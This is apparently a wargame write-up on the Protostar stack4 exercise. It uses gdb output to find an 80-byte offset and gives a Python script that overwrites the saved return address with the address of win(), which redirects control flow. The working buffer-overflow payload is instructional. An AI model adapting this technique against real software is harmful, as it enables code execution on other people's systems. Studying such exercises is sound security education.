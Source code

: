 We know we are accessing the buffer started at the address `esp+0x10`, see `main+9` `lea` instruction. Here is the value after calling the `gets()`, in other word instruction `<main+21>: leave`:

```as
(gdb) x/wx $esp+0x10
0xbffff770:	0x41414141
```
the `ebp` is at address `0xbffff7b8`, so we just need to add 8 more bytes to reach `0xbffff7bc: 0xb7eadc76`. 
```as
(gdb) p 0xbffff7b8+0x8-0xbffff770
$5 = 80
```
in total we need 80 bytes, and don't forget at the end 4 bytes the address of `win()` will be placed in there. We will use this simple python script for generating the payload:
```py
import string
import struct

payload = ""

for i, c in enumerate(string.ascii_uppercase):
    if (int(i) + 1) * 4 == 76:
        break
    payload += c * 4

win_address = struct.pack("I",0x080483f4)
payload += win_address
print(payload)
```
continuing:
```as
(gdb) ni
esp            0xbffff7bc	0xbffff7bc
ebp            0x41414141	0x41414141
eip            0x804841e	0x804841e <main+22>
0xbffff7bc:	0x080483f4	0x00000000	0xbffff864	0xbffff86c
0xbffff7cc:	0xb7fe1848	0xbffff820	0xffffffff	0xb7ffeff4
0xbffff7dc:	0x0804824b	0x00000001	0xbffff820	0xb7ff0626
0xbffff7ec:	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4	0x00000000
0xbffff7fc:	0x00000000	0xbffff838	0x4eb51d00	0x64e2eb10
0xbffff80c:	0x00000000	0x00000000	0x00000000	0x00000001
0xbffff81c:	0x08048340	0x00000000	0xb7ff6210	0xb7eadb9b
0x804841e <main+22>:	ret    
0x804841f:	nop
0x8048420 <__libc_csu_fini>:	push   ebp
0x0804841e in main (argc=Cannot access memory at address 0x41414149
) at stack4/stack4.c:16
16	in stack4/stack4.c
```
wait there is an error, when dealing with instruction `leave`. `leave` instruction is the same as:
```as
mov esp, ebp
pop ebp
```
it's the reverse of the stack frame initialization at the beginning of a function call:
```as
push ebp
mov ebp,esp
```
in this particular input, we can't `pop` the `ebp` because our we overflow it with `0x41414141`. Well it's not going to change the fact that we already overflow the top stack with `0x080483f4` which will be used by `ret` instruction.
```bash
$ ./stack4 < /tmp/payl 
code flow successfully changed
Segmentation fault
```